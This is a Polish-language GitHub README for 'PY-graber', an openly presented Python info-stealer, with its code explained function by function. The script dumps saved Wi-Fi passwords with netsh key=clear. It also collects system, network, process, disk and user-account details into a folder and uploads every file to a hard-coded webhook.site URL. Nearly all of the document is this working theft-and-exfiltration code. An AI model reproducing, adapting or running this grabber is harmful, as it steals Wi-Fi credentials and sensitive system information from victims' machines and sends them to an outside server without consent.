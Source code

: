# PY-graber

#możliwości:
  -Zdobywa hasła do wifi
  -zdobywa dane z następujących komend:  systeminfo, ipconfig, ipconfig /all, Get-Proces, Get-WmiObject Win32_PhysicalMemory, netstat, Get-NetAdapter, Get-NetConnectionProfile, Get-WmiObject -Class Win32_LogicalDisk, Get-NetTCPConnection, Get-NetUDPEndpoint, Get-NetFirewallSetting | Select-Object, Get-WmiObject -Class Win32_UserAccount, netsh wlan show profile




1. **Importowanie bibliotek:**
   ```python
   import os
   import subprocess
   import requests
   ```
   - `os`: Moduł ten umożliwia interakcję z systemem operacyjnym, np. zarządzanie plikami i katalogami.
   - `subprocess`: Moduł ten pozwala na uruchamianie zewnętrznych poleceń i programów z poziomu Pythona.
   - `requests`: Moduł ten służy do wysyłania HTTP/1.1 zapytań, bardzo przydatny do komunikacji z serwerami webowymi.

2. **Stała:**
   ```python
   SCIEZKA_DO_FOLDERU = "C:\\dane_diagnostyczne"
   ```
   - Definiuje ścieżkę do folderu, w którym będą przechowywane pliki diagnostyczne.

3. **Funkcja `wyslij_plik_do_webhooka`:**
   ```python
   def wyslij_plik_do_webhooka(webhook_url, folder_path, file_name):
       file_path = os.path.join(folder_path, file_name)
       if os.path.exists(file_path):
           with open(file_path, 'rb') as file:
               file_data = file.read()
               files = {'file': (file_name, file_data)}
               response = requests.post(webhook_url, files=files)
   ```
   - Łączy ścieżkę folderu i nazwy pliku, aby uzyskać pełną ścieżkę do pliku.
   - Sprawdza, czy plik istnieje.
   - Jeśli plik istnieje, otwiera go i wysyła jego zawartość jako plik do podanego webhooka.

4. **Funkcja `czy_znaleziono_folder`:**
   ```python
   def czy_znaleziono_folder(sciezka):
       return os.path.exists(sciezka)
   ```
   - Sprawdza, czy dany folder istnieje i zwraca `True` lub `False`.

5. **Funkcja `lista_plikow_w_folderze`:**
   ```python
   def lista_plikow_w_folderze(folder_path):
       if os.path.exists(folder_path):
           files = os.listdir(folder_path)
           return files
       else:
           print(f'Folder {folder_path} nie istnieje.')
   ```
   - Sprawdza, czy folder istnieje.
   - Jeśli tak, zwraca listę plików w folderze.
   - Jeśli nie, drukuje komunikat o błędzie.

6. **Funkcja `usun_pliki_z_diagnozy`:**
   ```python
   def usun_pliki_z_diagnozy():
       if czy_znaleziono_folder(SCIEZKA_DO_FOLDERU):
           os.system("del /q C:\\dane_diagnostyczne\\*.txt")
           print("Pliki z diagnozy zostały usunięte.")
       else:
           print("Folder 'dane_diagnostyczne' nie został znaleziony lub nie ma w nim plików.")
   ```
   - Sprawdza, czy folder `SCIEZKA_DO_FOLDERU` istnieje.
   - Jeśli tak, usuwa wszystkie pliki `.txt` w tym folderze i drukuje komunikat.
   - Jeśli nie, drukuje komunikat o braku folderu.

7. **Funkcja `extract_wifi_profiles`:**
   ```python
   def extract_wifi_profiles(file_path):
       with open(file_path, 'r') as file:
           lines = file.readlines()

       profiles = []
       capture = False

       for line in lines:
           line = line.strip()
           if line == "User profiles":
               capture = True
           elif capture and line.startswith("All User Profile"):
               profile_name = line.split(":")[1].strip()
               profiles.append(profile_name)

       return profiles
   ```
   - Otwiera plik `file_path` i czyta jego zawartość.
   - Wyszukuje nazwy profili użytkowników Wi-Fi w pliku i zwraca je jako listę.

8. **Funkcja `uruchom_komende`:**
   ```python
   def uruchom_komende(komenda, nazwa_pliku):
       with open(nazwa_pliku, "w") as plik:
           subprocess.run(komenda, stdout=plik, stderr=subprocess.STDOUT, shell=True)
   ```
   - Uruchamia podane polecenie w wierszu poleceń i zapisuje wynik do pliku `nazwa_pliku`.

9. **Funkcja `run_powershell_command`:**
   ```python
   def run_powershell_command(command, output_file):
       powershell_path = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
       full_command = f'"{powershell_path}" -Command "{command}"'

       with open(output_file, "w") as output:
           subprocess.run(full_command, stdout=output, stderr=subprocess.STDOUT, shell=True)
   ```
   - Uruchamia podane polecenie PowerShell i zapisuje wynik do pliku `output_file`.

10. **Funkcja `main`:**
    ```python
    def main():
        if not czy_znaleziono_folder("c:\\dane_diagnostyczne"):
            os.mkdir("C:\\dane_diagnostyczne")

        usun_pliki_z_diagnozy()
        uruchom_komende("systeminfo", "C:\\dane_diagnostyczne\\info.txt")
        uruchom_komende("ipconfig", "C:\\dane_diagnostyczne\\ip.txt")
        uruchom_komende("ipconfig /all", "C:\\dane_diagnostyczne\\ip2.txt")
        run_powershell_command("Get-Process", "C:\\dane_diagnostyczne\\dane1.txt")
        run_powershell_command("Get-WmiObject Win32_PhysicalMemory", "C:\\dane_diagnostyczne\\dane2.txt")
        uruchom_komende("netstat", "C:\\dane_diagnostyczne\\net_test.txt")
        run_powershell_command("Get-NetAdapter", "C:\\dane_diagnostyczne\\kartysieciowe.txt")
        run_powershell_command("Get-NetConnectionProfile", "C:\\dane_diagnostyczne\\karty_bardziej_dokładnie.txt")
        run_powershell_command("Get-WmiObject -Class Win32_LogicalDisk", "C:\\dane_diagnostyczne\\dyski.txt")
        run_powershell_command("Get-NetTCPConnection", "C:\\dane_diagnostyczne\\ip3.txt")
        run_powershell_command("Get-NetUDPEndpoint", "C:\\dane_diagnostyczne\\ip4.txt")
        run_powershell_command("Get-NetFirewallSetting | Select-Object", "C:\\dane_diagnostyczne\\siec2.txt")
        run_powershell_command("Get-WmiObject -Class Win32_UserAccount", "C:\\dane_diagnostyczne\\użytkownicy.txt")
        run_powershell_command("netsh wlan show profile", "C:\\dane_diagnostyczne\\wifi.txt")
        wifi_profiles = extract_wifi_profiles(file_path)
        x = 0
        for wifi in wifi_profiles:
            run_powershell_command(f'netsh wlan show profile {wifi} key=clear', f'C:\\dane_diagnostyczne\\haslaDowiFI{x}.txt')
            x += 1
    ```
    - Sprawdza, czy folder `dane_diagnostyczne` istnieje, jeśli nie, tworzy go.
    - Usuwa wszystkie pliki diagnostyczne z folderu.
    - Uruchamia serię poleceń systemowych i PowerShell, zapisując wyniki do odpowiednich plików w folderze `dane_diagnostyczne`.
    - Wyszukuje profile Wi-Fi i zapisuje ich szczegóły do plików.

11. **Kod wykonywany po wywołaniu skryptu:**
    ```python
    if __name__ == "__main__":
        main()
        webhook_url = "https://webhook.site/23b24b8d-4ef3-4e73-b9ad-ed17749b1e0d"
        folder_path = "C:\\dane_diagnostyczne"
        nazwy_plikow = lista_plikow_w_folderze(folder_path)
        if nazwy_plikow:
            for nazwa_pliku in nazwy_plikow:
                wyslij_plik_do_webhooka(webhook_url, folder_path, nazwa_pliku)
    ```
    - Jeśli skrypt jest uruchomiony bezpośrednio, wywołuje funkcję `main`.
    - Następnie wysyła wszystkie pliki z folderu `dane_diagnostyczne` do określonego webhooka.
